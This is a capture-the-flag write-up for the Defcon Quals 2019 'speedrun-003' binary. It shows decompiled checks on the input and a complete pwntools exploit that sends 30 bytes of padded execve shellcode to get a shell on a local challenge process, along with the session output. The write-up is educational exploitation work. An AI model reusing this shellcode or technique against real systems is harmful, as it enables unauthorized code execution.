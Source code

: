 # Defcon Quals 2019 Speedrun---03

Full disclosure, I did not solve this durring the competition (I was not fast enough sadly). However I solved it after the competition and this is how I did it.

First let's take a look at the binary:
```
$	pwn checksec speedrun
[*] '/Hackery/defcon/s3/speedrun'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
$	file speedrun
speedrun: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=6169e4b9b9e1600c79683474c0488c8319fc90cb, not stripped
$	./speedrun
Think you can drift?
Send me your drift
19535728
You're not ready.
```

So we can see that it has all of the standard binary mitiations, and that it is a 64 bit elf that prompts us for input. When we look at the main function in IDA, we see this.

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  const char *v3; // rdi@1

  setvbuf(_bss_start, 0LL, 2, 0LL);
  v3 = "DEBUG";
  if ( !getenv("DEBUG") )
  {
    v3 = (const char *)5;
    alarm(5u);
  }
  say_hello(v3, 0LL);
  get_that_shellcode();
  return 0;
}
```

Looking through the functions, the one of interest to us is `get_that_shellcode()`:

```
__int64 get_that_shellcode()
{
  int v0; // ST0C_4@1
  char v1; // ST0A_1@7
  char buf; // [sp+10h] [bp-30h]@1
  char v4; // [sp+1Fh] [bp-21h]@7
  char v5; // [sp+2Eh] [bp-12h]@1
  __int64 v6; // [sp+38h] [bp-8h]@1

  v6 = *MK_FP(__FS__, 40LL);
  puts("Send me your drift");
  v0 = read(0, &buf, 0x1EuLL);
  v5 = 0;
  if ( v0 == 30 )
  {
    if ( strlen(&buf) == 30 )
    {
      if ( strchr(&buf, 0x90) )
      {
        puts("Sleeping on the job, you're not ready.");
      }
      else
      {
        v1 = xor((__int64)&buf, 0xFu);
        if ( v1 == (unsigned __int8)xor((__int64)&v4, 0xFu) )
          shellcode_it(&buf, 0x1Eu);
        else
          puts("This is a special race, come back with better.");
      }
    }
    else
    {
      puts("You're not up to regulation.");
    }
  }
  else
  {
    puts("You're not ready.");
  }
  return *MK_FP(__FS__, 40LL) ^ v6;
}
```

Here we can see it scans in `0x1e` bytes worth of input into `buf`, which then `strlen` is called on it. If the output of strlen is `30` then we can proceed. It also checks for NOPS (opcode `0x90`) in our input with `strchr`. Then runs the first half and second half of our input through the `xor` function, and checks to see if the results are the same. The `xor` function just goes through and xors the first `x` number of bytes it has been given, where `x` is the second argument and returns the output as a single byte:

```
__int64 __fastcall xor(__int64 input, unsigned int x)
{
  unsigned __int8 y; // [sp+17h] [bp-5h]@1
  unsigned int i; // [sp+18h] [bp-4h]@1

  y = 0;
  for ( i = 0; i < x; ++i )
    y ^= *(_BYTE *)(i + input);
  return y;
}
```

So in order for our shellcode to run, the first half of our shellcode when all the bytes are xored together must be equal to the second half of the shellcode xored togther. Then if it passes that check, our input is ran as shellcode in the `shellcode_it` function:

```
int __fastcall shellcode_it(const void *shellcode, unsigned int bytes)
{
  unsigned int len; // ST04_4@1
  int (__fastcall *v3)(void *, const void *); // rax@1
  int (__fastcall *dest)(void *, const void *); // ST10_8@1
  const void *v5; // rsi@1
  int (__fastcall *v6)(void *, const void *); // rdi@1

  len = bytes;
  v3 = (int (__fastcall *)(void *, const void *))mmap(0LL, bytes, 7, 34, -1, 0LL);
  dest = v3;
  v5 = shellcode;
  v6 = v3;
  memcpy(v3, v5, len);
  return dest(v6, v5);
}
```

So in order to get a shell, we will just need to send it a `30` byte shellcode with no null bytes (because that would interfere with the `strlen` call), and the first half of the shellcode xored together will be equal to the second half of the shellcode xored together. For this I used a 24 byte shellcode that I have used previously, while padding the end with `6` bytes worth of data to pass the length check. I then edited the last byte to pass the xor check by doing some simple xor math. Also I didn't have to worry too much about what instructions the opcodes mapped to, since the would be executed after the syscall which is when we get the shell.

Putting it all together, we get the following exploit:
```
from pwn import *

# Establish the target process
target = process('./speedrun-003')
#gdb.attach(target, gdbscript = 'pie b *0xac7')
#gdb.attach(target, gdbscript = 'pie b *0xaa3')
#gdb.attach(target, gdbscript = 'pie b *0x982')
#gdb.attach(target, gdbscript = 'pie b *0x9f7')

# The main portion of the shellcode
shellcode = "\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05"


# Pad the shellcode to meet the length / xor requirements
#shellcode = "\x50"*3 + shellcode + "\x50"*2 + "\x07"
shellcode = shellcode + "\x50"*5 + "\x07"

# Send the shellcode and then drop to an interactive shell
target.send(shellcode)
target.interactive()
```

When we run it:
```
$	python exploit.py 
[+] Starting local process './speedrun-003': pid 17506
[*] Switching to interactive mode
Think you can drift?
Send me your drift
$ w
 23:08:40 up  4:11,  1 user,  load average: 1.30, 0.96, 1.10
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               18:58   ?xdm?  24:17   0.01s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu gnome-session --session=ubuntu
$ ls
core  exploit.py  readme.md  speedrun-003
```

Just like that, we solved the challenge!

